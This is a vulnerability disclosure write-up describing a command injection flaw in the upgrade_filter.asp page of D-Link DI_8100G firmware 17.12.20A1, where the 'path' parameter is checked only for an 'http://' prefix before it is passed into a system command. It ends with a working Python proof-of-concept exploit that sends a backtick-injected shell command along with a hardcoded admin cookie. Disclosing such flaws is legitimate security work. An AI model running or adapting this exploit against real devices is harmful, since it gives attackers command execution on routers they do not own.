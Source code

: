 # DI_8100G-17.12.20A1 Command_Injection
# D-link:DI_8100G-17.12.20A1 Command Injection

# Firmware information
Firmware download address:http://www.dlink.com.cn/techsupport/download.ashx?file=5492

# Description:
A vulnerability was discovered in DI_8100G-17.12.20A1, which has been classified as critical. This issue affects the frontend functionality of the upgrade_filter.asp file, which calls the sub_47A60C function within the web service jhttpd. An attacker manipulating the path parameter can potentially lead to command injection.

# Analyse:

![](vx_images/525548159078221.png)

The function has a system command execution vulnerability. When concatenating the command, it does not perform adequate string checks; it only checks whether the path parameter exists and whether the first seven characters of the path value are "http://". If the path value is concatenated, it can result in command execution.



![](vx_images/516406279259331.png)


# exp

```
import requests

burp0_url = "http://192.168.0.1:80/upgrade_filter.asp?path=http://`ps%20%3E%20/004.txt`"
burp0_cookies = {"gw_userid": "admin,gw_passwd=3AD6F40535A864417D03912DCA74EDBD"}
burp0_headers = {"Accept": "application/json, text/javascript, */*", "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.6099.71 Safari/537.36", "Referer": "http://192.168.0.1/manage_2.html", "Accept-Encoding": "gzip, deflate, br", "Accept-Language": "zh,en-US;q=0.9,en;q=0.8", "Connection": "close"}
requests.get(burp0_url, headers=burp0_headers, cookies=burp0_cookies)
```









